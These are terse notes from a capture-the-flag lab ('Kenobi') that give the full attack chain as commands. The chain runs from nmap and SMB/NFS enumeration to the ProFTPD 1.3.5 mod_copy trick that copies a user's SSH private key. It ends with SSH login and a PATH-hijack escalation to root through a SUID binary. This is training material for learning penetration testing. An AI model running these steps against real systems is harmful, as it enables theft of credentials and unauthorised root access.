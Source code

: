 ## Kenobi ##

nmap 10.10.255.67 -Pn -sV
** Vulnerable service: ProFTPD 1.3.5

 ** Port:21 -FTP
searchsploit -w ProFTPD 1.3.5
** ProFTPd 1.3.5 - File Copy
** https://www.exploit-db.com/exploits/36742


** Port:139,445 -smb
ls /usr/share/nmap/scripts | grep "smb"
** smb-enum-shares.nse
** smb-enum-users.nse
nmap 10.10.255.67 -Pn -sV --script "smb-enum-shares.nse,smb-enum-users.nse"

** smbclient
smbclient //10.10.255.67/anonymous
** Use own Kali root password
ls
pwd


** Port:111 -rpcbind -nfs
ls /usr/share/nmap/scripts | grep "nfs"
** nfs-ls.nse
** nfs-showmount.nse
** nfs-statfs.nse
nmap 10.10.255.67 -Pn -sV --script=nfs-ls.nse,nfs-showmount.nse,nfs-statfs.nse


** Port:21 -FTP
** Vulnerable service: ProFTPD 1.3.5

searchsploit -w ProFTPD 1.3.5
** ProFTPd 1.3.5 - File Copy
** https://www.exploit-db.com/exploits/36742

** SITE CPFR source-path
** SITE CPTO destination-path 

nc 10.10.255.67 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
CTRL + Z

mkdir /mnt/kenobi_SSH_Private_Key
mount 10.10.255.67:/var /mnt/kenobi_SSH_Private_Key 
cd /mnt/kenobi_SSH_Private_Key/tmp
ls
chmod 600 id_rsa

** Use SSH private key to login
ssh -i id_rsa kenobi@10.10.255.67     

*** Access Gained

*** Privilege Escalation

** For SUID bit permitted files:
find / -perm -u=s -type f 2>/dev/null

** Out of the ordinary binary: /usr/bin/menu
menu
Ctrl + z

echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
1
id ----root



















